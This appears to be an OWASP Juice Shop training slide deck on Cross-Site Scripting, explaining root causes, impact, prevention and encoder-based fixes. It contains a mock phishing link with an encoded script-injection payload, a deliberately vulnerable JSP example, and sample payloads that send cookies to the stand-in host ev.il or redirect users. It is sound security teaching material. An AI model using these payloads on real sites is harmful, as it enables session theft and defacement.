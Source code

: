 <!-- $size: 16:9 -->

<!-- page_number: true -->

<!-- footer: Copyright (c) by Bjoern Kimminich | Licensed under CC-BY-SA 4.0 -->

# XSS

## (Cross-Site Scripting)

---

# [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

1. An attacker can use XSS to send a malicious script to an unsuspecting user
2. The end user's browser has _no way to know that the script should not be trusted_, and will execute the script

---

# Root Cause

Web applications vulnerable to XSS...

1. ...include untrusted data (usually from an HTTP request) into dynamic content...
2. ...that is then sent to a web user _without previously validating for malicious content_

---

# Typical Impact

* Steal user's session
* Steal sensitive data
* Rewrite the web page
* Redirect user to malicious website

---

# Typical Phishing Email

<small>Dear valued customer!

You won our big lottery which you might not even have participated in!
Click on the following totall inconspicious link to claim your prize **now**!

[CLICK HER! FREE STUFF! YOU WON!](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)

Sincereely yours,

Bjorn Kimminich
CEO of Juice Shop Inc.

<small><small>_Juice Shop Inc. is registered as a bla bla bla bla yadda yadda yadda more assuring legal bla
  All logos and icons are trademarks of Juice Shop Inc. Copyright (c) 2018 Juice Shop Inc._</small></small></small>

---

# Risk Rating

## Cross-Site Scripting (XSS)

| Exploitability    | Prevalence              | Detecability      | Impact                          | Risk                                                                                |
|:------------------|:------------------------|:------------------|:--------------------------------|:------------------------------------------------------------------------------------|
| :red_circle: Easy | :red_circle: Widespread | :red_circle: Easy | :large_orange_diamond: Moderate | [A7](https://www.owasp.org/index.php/Top_10-2017_A7-Cross-Site_Scripting_%28XSS%29) |
| ( **3**           | + **3**                 | + **3** ) / 3     | * **2**                         | = **6.0**                                                                           |

---

# :x: Vulnerable Code Example

```
<!--search.jsp-->

<%String searchCriteria = request.getParameter("searchValue");%>
```

might forward to the following page when executing the search:

```
<!--results.jsp-->

Search results for <b><%=searchCriteria%></b>:

<table>
<!-- Render the actual results table here -->
</table>
```

---

# Benign Usage

`
https://my-little-application.com/search.jsp?searchValue=blablubb
`

results in the following HTML on the `results.jsp` page:

```html
Search results for <b>blablubb</b>:
```

rendering as:

<hr>

Search results for <b>blablubb</b>:

---

<!-- *footer: -->

# Exploit Example

`
https://my-little-application.com/search.jsp?searchValue=</b><img src="https://placekitten.com/g/100/100"/><b>
`

results in the following HTML on the `results.jsp` page:

```html
Search results for
  <b></b><img src="https://placekitten.com/g/100/100"/><b></b>:
```

rendering as:

<hr>

Search results for <b></b><img src="https://placekitten.com/g/100/100"/><b></b>:

---

<!-- *footer: -->

# XSS Attack Payload Examples

#### Stealing User Session

```
<script>
  new Image().src="http://ev.il/hijack.php?c="+encodeURI(document.cookie);
</script>
```

#### Site Defacement

```
<script>document.body.background="http://ev.il/image.jpg";</script>
```

#### Redirect

```
<script>window.location.assign("http://ev.il");</script>
```

---

# Forms of XSS

* **Reflected XSS**: Application includes unvalidated and unescaped user input as part of HTML output
* **Stored XSS**: Application stores unsanitized user input that is viewed at a later time by another user
* **DOM XSS**: JavaScript frameworks & single-page applications dynamically include attacker-controllable data to a page

_:information_source: The previous example vulnerability and exploit of `results.jsp` is a typical Reflected XSS._

---

# [Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

* **Do not include user supplied input in your output!** :100:

<!-- -->

* **Output Encode** all user supplied input
  * e.g. OWASP Java Encoder
* Perform **White List Input Validation** on user input

<!-- -->

* Use an HTML Sanitizer for larger user supplied HTML chunks
  * e.g. OWASP Java HTML Sanitizer

---

# :heavy_check_mark: Fixed Code Example

Using `Encoder` from [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project):

```
<%import org.owasp.encoder.Encoder;%>

Search results for <b><%=Encoder.forHtml(searchCriteria)%></b>:
<!-- ... -->
```

Same result using `HtmlUtils` from the popular Spring framework:

```
<%import org.springframework.web.util.HtmlUtils;%>

Search results for <b><%=HtmlUtils.htmlEscape(searchCriteria)%></b>:
<!-- ... -->
```

---

# [OWASP Java HTML Sanitizer](https://www.owasp.org/index.php/OWASP_Java_HTML_Sanitizer_Project)

Fast and easy to configure HTML Sanitizer written in Java which lets you include HTML authored by third-parties in your web application while protecting against XSS.

## Using a simple pre-packaged policy

```java
private String sanitizeHtml(String html) {
  PolicyFactory policy = Sanitizers.FORMATTING.and(Sanitizers.BLOCKS)
				              .and(Sanitizers.LINKS);
  return policy.sanitize(html);
}
```

---

# Exercise

1. Perform a _DOM XSS_ and/or _Reflected XSS_ attack (:star:)
2. Beat a weak _Client-side XSS Protection_ during user registration (:star::star::star:)
3. Give the shop feedback bypassing its _Server-side XSS Protection_ (:star::star::star::star:)  

